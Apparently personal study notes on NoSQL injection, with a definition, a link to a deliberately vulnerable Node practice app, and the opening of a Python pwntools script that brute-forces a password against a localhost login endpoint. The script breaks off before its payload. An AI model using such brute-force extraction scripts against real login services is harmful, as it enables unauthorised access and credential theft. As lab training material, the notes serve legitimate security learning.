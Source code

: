 
## NoSQL Injections (NoSQLi)

NoSQLi are security vulnerabilities in the web application that use NoSQL databases, like, MongoDB, Cassandra and CouchDB, among others. This injections are produced when an applciation lets the user to sent malicious data through a database query, which later is executed because of the lack of sanitization or validation.

The NoSQLi works similar to SQLi, but this are focused in NoSQLi DBs. The attacker takes advantage of of the querys that relies in documents instead of relational databases to sent malicious data that may manipulate the query and obtain confidential information.

Unlike SQL injections, NoSQL injections exploit the lack of data validation in a NoSQL database query, rather than exploiting the weaknesses of SQL queries in relational databases.

---

• **Vulnerable-Node-App**: [https://github.com/Charlie-belmer/vulnerable-node-app](https://github.com/Charlie-belmer/vulnerable-node-app)

---

- PoC Lab
    
    ![[Untitled 191.png]]
    
    `docker-compose up -d`
    
    ![[Untitled 192.png]]
    
    This is how the data flows via requests
    
    Using regex we have
    
    ![[Untitled 193.png]]
    
      
    
    ```Python
    #!/usr/bin/python3
    
    from pwn import *
    import requests, time, sys, signal, string
    
    \#CTRL+C
    def def_handler(sig, frame):
    	print("\n\np[!]Saliendo...\n")
    	sys.exit(1)
    
    \#Variables Globales
    login_url: = "http://localhost:4000/user/login"
    characters = string.ascii_lowercase + string.ascii_uppercase + string.digits
    
    def makeNoSQLi():
    
    	password = ""
    	
    	p1 = log.progress("Fuerza bruta")
    	p1.status("Iniciando procesos de fuerza bruta")
    